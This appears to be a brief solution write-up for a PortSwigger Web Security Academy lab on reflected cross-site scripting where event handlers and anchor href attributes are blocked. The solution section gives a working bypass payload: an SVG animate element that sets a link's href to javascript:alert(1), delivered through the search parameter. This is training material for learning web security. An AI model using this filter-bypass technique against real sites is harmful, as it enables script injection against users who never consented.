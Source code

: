 Reflected XSS with event handlers and href attributes blocked

----
### Lab description

This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked..

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

`<a href="">Click me</a>`

#### Lab solution

- Verify the context of XSS
![](/static/img/Pasted_image_20230614175654.png)

- Insert the payload `https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
`
![](/static/img/Pasted_image_20230614175841.png)

- Lab Solved.